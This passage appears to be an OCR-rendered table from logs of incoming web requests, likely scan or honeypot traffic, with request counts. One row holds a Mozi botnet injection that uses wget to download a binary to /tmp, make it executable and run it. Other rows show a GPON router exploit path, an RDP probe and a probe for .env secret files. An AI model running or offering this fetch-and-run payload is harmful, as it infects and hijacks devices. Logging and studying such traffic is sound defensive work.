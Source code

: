 |  42 |                     2 | GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                  |
|  43 |                     2 | HELP                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  44 |                     2 | H\x00\x00\x00tj\xA8\x9E#D\x98+\xCA\xF0\xA7\xBBl\xC5\x19\xD7\x8D\xB6\x18\xEDJ\x1En\xC1\xF9xu[l\xF0E\x1D-j\xEC\xD4xL\xC9r\xC9\x15\x10u\xE0%\x86Rtg\x05fv\x86]%\xCC\x80\x0C\xE8\xCF\xAE\x00\xB5\xC0f\xC8\x8DD\xC5\x09\xF4                                                                                                                                                                                                             |
|  45 |                     2 | GET /Media/Images/1801359D.PNG HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
|  46 |                     2 | POST /GponForm/diag_Form?images/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  47 |                     2 | GET /common/info.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                      |
|  48 |                     2 | GET /aab9 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  49 |                     2 | GET /ads.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |
|  50 |                     2 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                              |
|  51 |                     2 | \x00\x00\x00\x00\x00\x06\x01\x03\xB4\x14\x00\x08                                                                                                                                                                                                                                                                                                                                                                                   |
|  52 |                     2 | GET /Start.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  53 |                     2 | \x03\x00\x00/*\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Administr                                                                                                                                                                                                                                                                                                                                                                   |
|  54 |                     1 | GET /Cp/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |